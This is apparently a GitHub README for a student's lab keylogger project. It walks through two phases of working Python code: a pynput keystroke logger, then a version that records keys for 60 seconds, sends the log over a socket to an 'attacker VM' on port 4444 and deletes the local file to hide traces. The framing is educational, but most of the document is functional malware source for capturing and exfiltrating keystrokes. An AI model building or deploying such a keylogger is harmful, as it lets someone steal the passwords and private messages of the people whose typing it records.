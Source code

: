 # Python Keylogger Project
This is my attempt at a Python Keylogger Project, done purely for educational purposes in a lab environment. The main goal is to understand how malicious software can track user input and exfiltrate that data.  I’ve divided the project into different phases to gradually build up from basic functionality to something more advanced.

The goal is:
- Understand how keystrokes can be captured in real time using Python
- Learn about network programming using sockets for data transfer
- Simulate basic data exfiltration from one machine to another

I've divided this project into 2 parts:
- Phase 1: Keylogging own keys on the Kali VM
- Phase 2: Keylogging on another system and sending it back to the Kali VM

## Phase 1 : Keylogging own keys on the Kali VM

I've written a simple Python code that uses the 'keyboard' module from the 'pynput' library, which tracks key presses in real time, from my own machine. Here is the code:

```python
from pynput import keyboard

log = "keylog.txt"

def on_press(key):
    try:
        with open(log, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        pass
        
listener = keyboard.Listener(on_press=on_press)
listener.start()
listener.join()
```

Once I was done with it, I ran this code to see if it works. And as you can see it works as expected, but the words are all mashed together, no space or enters.\
\
![](images/test_keylogger.png)\
\
Here's the updated code for it:

```python
from pynput import keyboard

log = "keylog.txt"

def on_press(key):
    try:
        with open(log, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        if key == keyboard.Key.space:
            with open(log, "a") as f:
                f.write(" ")
        elif key == keyboard.Key.enter:
            with open(log, "a") as f:
                f.write("\n")
        
listener = keyboard.Listener(on_press=on_press)
listener.start()
listener.join()
```

Then I ran the updated code again and it works perfectly as it has to, as you can see in the screenshot.\
\
![](images/final_keylogger.png)\
\
That was Phase 1 of my Project. Now onto Phase 2.

## Phase 2 : Keylogging on another system and sending it back to the Kali VM

The main goal of this phase is to be able to get back the keylog.txt file from  another computer or VM, and delete itself after (just to mimic a malware, for the sake of this project).

For that I have written 2 codes, one for the receiving end and one for the send. The receiver end will only have a code that attempts to receive the file, and the send code, will have the actual keylogger code plus the send part of the code to send it back.

For this I've used the 'socket' module to enable functions that I can use to interact with the network functions for Python.

Here is the 'receiver.py' code which hosts on the Kali VM:

```python
import socket

def receive_log():
    host = "0.0.0.0"
    port = 4444

    with socket.socket() as s:
        s.bind((host, port))
        s.listen(1)
        conn, addr = s.accept()
        print(f"[+] Connection from {addr}")

        with open("received_keylog.txt", "wb") as f:
            while True:
                data = conn.recv(1024)
                if b"DONE" in data:
                    break
                f.write(data)

receive_log()
```

And here is the 'send_code.py' code which hosts on the Kali VM:

```python
from pynput import keyboard
import socket
import time
import os  # Added for file deletion

log = "keylog.txt"
start_time = time.time()
duration = 60  # run for 60 seconds

def on_press(key):
    if time.time() - start_time > duration:
        return False

    try:
        with open(log, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        if key == keyboard.Key.space:
            with open(log, "a") as f:
                f.write(" ")
        elif key == keyboard.Key.enter:
            with open(log, "a") as f:
                f.write("\n")
        # Other special keys are ignored

def send_log():
    host = "192.168.29.132"  # Replace with attacker VM IP
    port = 4444

    try:
        with socket.socket() as s:
            s.connect((host, port))
            with open(log, "rb") as f:
                data = f.read()
                s.sendall(data)
                time.sleep(1)
                s.send(b"DONE")

        # Delete the log file after successful send
        os.remove(log)
    except:
        pass

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()

send_log()
```

Now I will first run the code on the receiver side and then the sender's side.\
\
![](images/send_recieve.png)\
\
As we can see it works perfectly.

## Conclusion:
To complete this project, I had to first learn how to use the keyboard module from the pynput library, which was new to me. It helped me track keystrokes in real time and understand how to handle normal key inputs vs special ones like space and enter. I also learned how to clean up the output to make the logged text readable, which made a big difference in how useful the logs actually were.

Then for Phase 2, I had to figure out how to send files between systems. For that, I learned how to use Python’s socket module, which gave me the tools to open up a connection between two VMs and send the keylog file across the network. I also added a small automation step to delete the file after it’s been sent successfully, just to keep things clean.

Overall, this project helped me get more comfortable with writing small scripts that simulate basic attack behavior in a safe lab environment. It also gave me a better understanding of how keystroke logging and data exfiltration actually works under the hood, which I think is useful knowledge to have for anyone going into cybersecurity.
